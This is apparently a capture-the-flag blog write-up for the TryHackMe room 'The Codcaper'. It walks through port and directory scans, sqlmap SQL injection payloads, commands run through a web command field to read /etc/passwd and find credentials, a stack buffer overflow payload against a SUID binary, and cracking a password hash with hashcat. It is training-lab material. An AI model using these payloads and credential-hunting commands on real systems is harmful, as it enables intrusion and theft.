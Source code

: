 ```yaml
---
title: "The Codcaper"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="pingu.jpeg" alt="pingu" style="width: 200px;" >}}

## Enumeration


```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDs2k31WKwi9eUwlvpMuWNMzFjChpDu4IcM3k6VLyq3IEnYuZl2lL/dMWVGCKPfnJ1yv2IZVk1KXha7nSIR4yxExRDx7Ybi7ryLUP/XTrLtBwdtJZB7k48EuS8okvYLk4ppG1MRvrVojNPprF4nh5S0EEOowqGoiHUnGWOzYSgvaLAgvr7ivZxSsFCLqvdmieErVrczCBOqDOcPH9ZD/q6WalyHMccZWVL3Gk5NmHPaYDd9ozVHCMHLq7brYxKrUcoOtDhX7btNamf+PxdH5I9opt6aLCjTTLsBPO2v5qZYPm1Rod64nysurgnEKe+e4ZNbsCvTc1AaYKVC+oguSNmT
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAmpmAEGyFxyUqlKmlCnCeQW4KXOpnSG6SwmjD5tGSoYaz5Fh1SFMNP0/KNZUStQK9KJmz1vLeKI03nLjIR1sho=
|   256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBIRpiANvrp1KboZ6vAeOeYL68yOjT0wbxgiavv10kC
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


```bash
 :: Method           : GET
 :: URL              : http://10.10.5.111/FUZZ.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 ________________________________________________

 .hta                    [Status: 403, Size: 276, Words: 20, Lines: 10]
 .htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
 .htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
 [Status: 403, Size: 276, Words: 20, Lines: 10]
 administrator           [Status: 200, Size: 409, Words: 53, Lines: 22]
```

its guided room...so speedrun
obvious sql injection

```bash
sqlmap -u http://10.10.5.111/administrator.php --forms --dump

Parameter: username (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: username=iewm' RLIKE (SELECT (CASE WHEN (6931=6931) THEN 0x6965776d ELSE 0x28 END))-- pxHY&password=

Type: error-based
Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
Payload: username=iewm' AND GTID_SUBSET(CONCAT(0x7178787a71,(SELECT (ELT(1090=1090,1))),0x7171767871),1090)-- qgeV&password=

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=iewm' AND (SELECT 7299 FROM (SELECT(SLEEP(5)))IoDT)-- SNGS&password=

---

Database: users
Table: users
[1 entry]
+------------+----------+
| password | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

After login the rce input says "command"...bruh we know its RCE but damn that was direct

```bash
ls

2591c98b70119fe624898b1e424b5e91.php administrator.php index.html index.html
```

```bash
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false \_apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false papa:x:1000:1000:qaa:/home/papa:/bin/bash mysql:x:108:116:MySQL Server,,,:/nonexistent:/bin/false sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin pingu:x:1002:1002::/home/pingu:/bin/bash pingu:x:1002:1002::/home/pingu:/bin/bash
```

pingu and papa are users
At this point we could just use a shell to get inside but I want to do it the other way

`find / -type f -user pingu`

```bash
/home/pingu/.cache/motd.legal-displayed /home/pingu/.ssh/id_rsa /home/pingu/.ssh/id_rsa.pub /home/pingu/.gdb_history /home/pingu/.pwntools-cache-2.7/update /home/pingu/.pwntools-cache-2.7/update
```

`find / -type f -user papa`

```bash
/home/papa/.bash_history /home/papa/.bash_logout /home/papa/.profile /home/papa/.bashrc /home/papa/.sudo_as_admin_successful /home/papa/.pwntools-cache-2.7/update /var/backups/shadow.bak /var/backups/shadow.bak
```

Ah..I may be doing this wrong
Assuming we have access to the file let's try this

`find / -user www-data`

Among a thousand files...the last ones are interesting

```bash
...
/var/hidden/pass /var/hidden/pass
```

`cat /var/hidden/pass`

```bash
pinguapingu pinguapingu
```

so..ssh creds are

`pingu : pinguapingu`

I am not a big fan of privesc scripts but hey..let's load that noisy linenum

`scp LinEnum.sh pingu@10.10.8.121:/tmp`

```bash
....

[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 2020 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul 4 2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May 8 2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16 2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16 2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16 2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16 2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16 2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar 4 2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27 2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12 2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May 7 2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16 2017 /bin/su
-rwsr-xr-x 1 root root 44680 May 7 2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28 2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16 2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12 2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16 2018 /bin/umount

....
```

yeah definitely `/opt/secret/root`

Oh cool the binary exploitation part
`gdb /opt/secret/root` (I need pwndbg too)
we run cyclic input to pass 50 characters when the program expects 32

```bash
r < <(cyclic 50)

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────────────────────
EAX 0x1
EBX 0x0
ECX 0x1
EDX 0xf779b87c (_IO_stdfile_0_lock) ◂— 0
EDI 0xf779a000 (\_GLOBAL_OFFSET_TABLE_) ◂— mov al, 0x1d /_ 0x1b1db0 _/
ESI 0xf779a000 (_GLOBAL_OFFSET_TABLE_) ◂— mov al, 0x1d /_ 0x1b1db0 _/
EBP 0x6161616b ('kaaa')
ESP 0xffdfeb10 ◂— 0xf700616d /_ 'ma' _/
EIP 0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c

00:0000│ esp 0xffdfeb10 ◂— 0xf700616d /_ 'ma' _/
01:0004│ 0xffdfeb14 —▸ 0xffdfeb30 ◂— 0x1
02:0008│ 0xffdfeb18 ◂— 0x0
03:000c│ 0xffdfeb1c —▸ 0xf7600637 (**libc*start_main+247) ◂— add esp, 0x10
04:0010│ 0xffdfeb20 —▸ 0xf779a000 (\_GLOBAL_OFFSET_TABLE*) ◂— mov al, 0x1d /_ 0x1b1db0 _/
... ↓
06:0018│ 0xffdfeb28 ◂— 0x0
07:001c│ 0xffdfeb2c —▸ 0xf7600637 (**libc_start_main+247) ◂— add esp, 0x10
───────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────────────────────
► f 0 6161616c
f 1 f700616d
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Program received signal SIGSEGV (fault address 0x6161616c)
```

heh...segfault at 0x6161616c...trying to overwrite EIP

`pwndbg> cyclic -l 0x6161616c`

```bash
44
```

we need 44 chars to overwrte EIP

I chose the manual way over pwntools but both are handy

```bash
pwndbg> disassemble shell
Dump of assembler code for function shell:
0x080484cb <+0>: push ebp
0x080484cc <+1>: mov ebp,esp
0x080484ce <+3>: sub esp,0x8
0x080484d1 <+6>: sub esp,0xc
0x080484d4 <+9>: push 0x3e8
0x080484d9 <+14>: call 0x80483a0 <setuid@plt>
0x080484de <+19>: add esp,0x10
0x080484e1 <+22>: sub esp,0xc
0x080484e4 <+25>: push 0x3e8
0x080484e9 <+30>: call 0x8048370 <setgid@plt>
0x080484ee <+35>: add esp,0x10
0x080484f1 <+38>: sub esp,0xc
0x080484f4 <+41>: push 0x80485d0
0x080484f9 <+46>: call 0x8048380 <system@plt>
0x080484fe <+51>: add esp,0x10
0x08048501 <+54>: nop
0x08048502 <+55>: leave
0x08048503 <+56>: ret
End of assembler dump.
```

we import struct to convert the addredd to little endian (can be done manually then inserted)

`python -c 'import struct;print "A"\*44 + struct.pack("<I",0x080484cb)'`

And pipe it to the program...to reveal the hashed password

`python -c 'import struct;print "A"\*44 + struct.pack("<I",0x080484cb)' | /opt/secret/root`

I need to learn assembly ASAP

```text
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
```

Might be SHA-512...so hashcat mode..1800?

```bash
hashcat -m 1800 '$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.' /usr/share/wordlists/rockyou.txt
```

cracked! password is `love2fish`

noot noot
